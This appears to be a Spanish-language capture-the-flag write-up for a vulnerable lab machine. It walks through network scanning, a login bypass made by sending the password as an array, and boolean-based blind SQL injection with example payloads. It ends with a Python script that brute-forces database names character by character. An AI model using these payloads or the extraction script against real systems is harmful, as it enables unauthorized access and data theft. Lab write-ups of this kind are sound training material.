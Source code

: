 ### Tags: `SQLI` `REC` `BufferOverflow`

# Reconocimiento (`Linux`)

Lo primero que hacemos es un **escaneo de equipos** que estén conectados ami red de esta forma:

```ruby
arp-scan -I eth0 --localnet
```

![image](https://github.com/user-attachments/assets/ccac24ad-4eac-420f-aca8-5e2e0767c00d)

# Escaneo (**80**)

```css
sudo nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn <IP>
```

![image](https://github.com/user-attachments/assets/4f4b8e09-b5df-480f-b858-2f9ee6337f6a)

```css
sudo nmap -p80 -sCV <IP> -oN escaneo  
```

![image](https://github.com/user-attachments/assets/fcaa1281-32b9-48fc-b9f4-ac450e9d5959)

# Port 80

Navegando por la web hicimos un `control + u` y observamos un doble ``==``  que nos llamo la atención  y vemos que estaba en **base64**, lo cual vamos decodificar

![image](https://github.com/user-attachments/assets/60c94905-ca6b-46b8-b1b5-390ac5be5115)

Lo decodificamos y vemos que **nos dá otra cadena en base64**, lo volvemos a decodificar y nos da una **ruta** que vamos a poner en la web

![image](https://github.com/user-attachments/assets/adb0010e-9595-4a60-a7d9-9dc6815b7c39)
![image](https://github.com/user-attachments/assets/0b46ff27-5876-4a25-8b68-b24eb6b19c15)

Tenemos un panel de login

![image](https://github.com/user-attachments/assets/f48e48b6-8658-4bc4-a84a-b492d40fc784)

Si vamos a la web principal en la parte de **Contact Us** tenemos posibles usuarios la cual vamos a probar en el panel

![image](https://github.com/user-attachments/assets/46bb2956-1b45-427d-8fc7-3a64be4afd97)

# BurpSuite

- El único que funciona es `rmichaels` ya que nos dice **invalid password** y en los otros users nos dice **invalid username**
	- Por ende lo que vamos a hacer es interceptar con Burp la petición

![image](https://github.com/user-attachments/assets/96280361-4028-4e0b-b60c-2239130dff7c)

- Para burlar la contraseña podemos representar un **array** para que devuelva un NULL y se se emplea un **strcompare** nos va da devolver un exitoso por ende considera que lo que pusimos es **correcto**
	- Y vemos que si, que funcionó.

![image](https://github.com/user-attachments/assets/d92f2a05-d958-48ca-94b6-adbe23a26d39)

Vemos que la **flag3** dice que continuemos con el CMS del link 

![image](https://github.com/user-attachments/assets/e32d9512-ef2b-4af2-b367-09a18a15f23f)
![image](https://github.com/user-attachments/assets/4088757e-0a9c-4232-8ac7-7402b7b0c23d)

Dentro del link tenemos esto:

![image](https://github.com/user-attachments/assets/32ad07b0-bb52-41d5-b5e7-8670ec7c20d9)

- Probamos hacer un **LFI** pero no funcionó, pero ponemos un comilla nos **salta un error** lo cual es curioso
	- Por ende otra ves vamos a usar Burp

![image](https://github.com/user-attachments/assets/4d1f44f9-7b64-4388-bb93-cad7d65c055f)

# SQLI *Boolean* Based *Blind*

- Si hacemos un `'or '1'='1-- -` vemos que cambia la respuesta 
	- Entonces lo que vamos a hacer es jugar con condiciones booleanas, si algo devuelve **TRUE exitoso**, devuelve un output, si no es correcto cambia el output

![image](https://github.com/user-attachments/assets/a5ebb031-fa20-43b9-9258-f172e00e385a)

- Ahora lo que hacemos es probar si la base de datos `mysql` que siempre esta existe, jugando `limit` para que nos de una única base de datos.
	- Si la igualdad es correcta (si mysql está en la segunda base de datos,) veremos el la respuesta **Welcome to the IMF Administration.**

![image](https://github.com/user-attachments/assets/fe45d776-4972-422b-9016-d32bc8bc0542)

Para comprobar si la primera base de datos era **information_schema** y vemos que sí

![image](https://github.com/user-attachments/assets/416d7d56-ad85-49d6-857c-f446d35568e1)

# Python Scripting

- Vamos a hacernos un script en Python para fuzear carácter por carácter y obtener el nombre de la base de datos.

### Cuantas Bases de Datos hay

- Con este comando podemos observar cuantas bases de datos hay y vemos que son 5 porque cuando lo igualamos a 5 nos sale el mensajito **Welcome to the IMF Administration.**
	- `' or (select count(schema_name) from information_schema.schemata)='5 `  (poner Ctrl+u para urlenconded)

```python
#!/usr/bin/python3

from pwn import *   #Para poder jugar con barras de progresos
import requests     #Para hacer peticiones HTTP
import string       #Para generar los caracteres de la contraseña
import time         #Para poder hacer sleep
import sys          #Para poder usar sys.exit()
import pdb          #Para poder hacer debugging
import signal       #Para hacer CTRL+C 



def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Ctrl + c
signal.signal(signal.SIGINT, def_handler)



#Variables globales
main_url = "http://192.168.0.192/imfadministrator/cms.php?pagename=home"   #La peticion se tramita por GET
characters = string.ascii_lowercase + '-_'    #string.punctuation  #Abarca todo los simbolos el punctuation


def makeRequest():

    cookies = {"PHPSESSID": "hq7ejo76tsdk4prr3kdn9lsvm1"}   #Cookie de la sesion

    database = ""


    #Barras de Progreso
    p1 = log.progress("Fuerza Bruta")  
    p1.status("Iniciando proceso de fuerza bruta...")    #Para poder ver el mensaje de la barra de progreso
    time.sleep(2)   #Para poder hacer sleep

    p2 = log.progress("Databases")



    for dbs in range(0, 5): #porque hay 5 bases de datos 
        for position_character in range(1, 30):   #suponemos que la base de datos tiene 30 caracteres o menos
            for character in characters:
                sqli = main_url + f"'+and+(select+substring(schema_name,{position_character},1)+from+information_schema.schemata+limit+{dbs},1)='{character}"

                #p1.satatus(sqli)   #si quiero ver como se tramita para cada posicion y cada caracter

                r = requests.get(sqli, cookies=cookies)  #para poder ver la respuesta de la peticion

                if "Welcome to the IMF Administration" in r.text:
                    database += character
                    p2.status(database)  #jugamos con esta barra de progreso para que me muestre los datos de la base de datos
                    break

        database += ","


if __name__ == '__main__':
    makeRequest()

```

- Vemos que nos sacó una base de datos llamada `admin` que parece interesante

![image](https://github.com/user-attachments/assets/9df7e65a-8c90-4bb0-863d-15976b813594)


































